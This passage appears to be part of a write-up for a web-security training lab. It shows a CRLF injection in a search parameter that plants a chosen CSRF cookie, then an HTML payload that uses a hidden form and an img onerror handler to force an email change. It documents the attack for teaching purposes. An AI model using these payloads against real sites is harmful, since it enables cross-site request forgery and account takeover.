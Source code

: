 If we send request to `search` endpoint which is known to set cookie for the `lastSearch`, but we can add `csrf` cookie as well!

```
/?search=test%0d%0aSet-Cookie:%20csrf=spoof 
```

and response:

```
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrf=spoof; Secure; HttpOnly
```

CSRF token is set to our spoofed value and it stays the same.

![picture 7](/assets/images/a5d21685409a86f3b2bb6ea1ae31578feb538d9b215de62e7bc792661591e4f4.png)  

We can deliver similar payload as in previous lab

```html
<form method="POST" action="https://0aef0089046807e7c06dccfb00dc00ae.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
<input type="hidden" name="csrf" value="spoof">

</form>

<img src="https://0aef0089046807e7c06dccfb00dc00ae.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=spoof%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

